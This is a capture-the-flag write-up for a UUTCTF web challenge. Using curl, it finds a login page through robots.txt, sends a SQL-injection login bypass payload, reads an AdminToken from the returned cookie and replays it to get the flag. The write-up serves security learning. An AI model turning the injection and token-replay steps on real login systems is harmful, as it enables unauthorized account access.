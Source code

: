 # **Old CTF**

#### tag : web, csrf, cookie 

-----------------------------------------------

#### Description

>There is an old page of UUTCTF at:
>
>http://188.40.189.2:8004/
>
>Simple, find the flag.

-----------------------------------------------

#### Solution

Problem page is `http://188.40.189.2:8004/`. But this page is just archive page for `ctftime`. There is no valuable things in this page. So I check `robots.txt`. 

~~~
$ curl http://188.40.189.2:8004/robots.txt
User-agent: *
Disallow: 
/css/
/fonts/
/images/
/js/
/vendor/
/login.php
~~~

There is simple login page that received 3 parmeters for login.

~~~
$ curl http://188.40.189.2:8004/login.php
...
					<span class="login100-form-title">
						Member Login
					</span>

										
					<div class="wrap-input100">
						<input class="input100" type="hidden" name="token" value="77b042d904595c105874ae33f499be16">
					</div>
					
					<div class="wrap-input100 p-t-15">
						<input class="input100" type="text" name="username" placeholder="Username">
						<span class="focus-input100"></span>
						<span class="symbol-input100">
							<i class="fa fa-envelope" aria-hidden="true"></i>
						</span>
					</div>

					<div class="wrap-input100">
						<input class="input100" type="password" name="password" placeholder="Password">
						<span class="focus-input100"></span>
						<span class="symbol-input100">
							<i class="fa fa-lock" aria-hidden="true"></i>
						</span>
					</div>
					
					<div class="container-login100-form-btn">
						<button class="login100-form-btn">
							Login
						</button>
...
~~~

Maybe simple sqli is effective. But there is only string `Sorry, You must be admin to find the flag! Are you tired? Eat some cookies ;)`.

~~~
$ curl -X POST -d "username=admin'or 1=1#&password=password" http://188.40.189.2:8004/login.php
...
					<span class="login100-form-title">
						Member Login
					</span>

					Sorry, You must be admin to find the flag! Are you tired? Eat some cookies ;)					
					<div class="wrap-input100">
						<input class="input100" type="hidden" name="token" value="77b042d904595c105874ae33f499be16">
					</div>
					
					<div class="wrap-input100 p-t-15">
						<input class="input100" type="text" name="username" placeholder="Username">
						<span class="focus-input100"></span>
						<span class="symbol-input100">
							<i class="fa fa-envelope" aria-hidden="true"></i>
						</span>
					</div>

					<div class="wrap-input100">
						<input class="input100" type="password" name="password" placeholder="Password">
						<span class="focus-input100"></span>
						<span class="symbol-input100">
							<i class="fa fa-lock" aria-hidden="true"></i>
						</span>
					</div>
					
					<div class="container-login100-form-btn">
						<button class="login100-form-btn">
							Login
						</button>
~~~

I can find `AdminToken` is `33e78d60bc1f9dcc7291c891e6f069e4` in cookie. Well, Maybe this value is for `token` paremeter.

~~~
$ curl -X POST -c cookies -d "username=admin'or 1=1#&password=password" http://188.40.189.2:8004/login.php

$ cat cookies 
# Netscape HTTP Cookie File
# http://curl.haxx.se/docs/http-cookies.html
# This file was generated by libcurl! Edit at your own risk.

188.40.189.2	FALSE	/	FALSE	1559105464	AdminToken	33e78d60bc1f9dcc7291c891e6f069e4
~~~

Ok. login with token. And I can get flag from server.

~~~
$ curl -X POST -c cookies -d "username=admin'or 1=1#&password=passwordi&token=33e78d60bc1f9dcc7291c891e6f069e4" http://188.40.189.2:8004/login.php
...	
					<span class="login100-form-title">
						Member Login
					</span>

					Congratulations! This is Flag: 1f29322531f03627428a73f70664c8e9									</form>
			</div>
		</div>
	</div>
...
~~~

**UUTCTF{1f29322531f03627428a73f70664c8e9}**
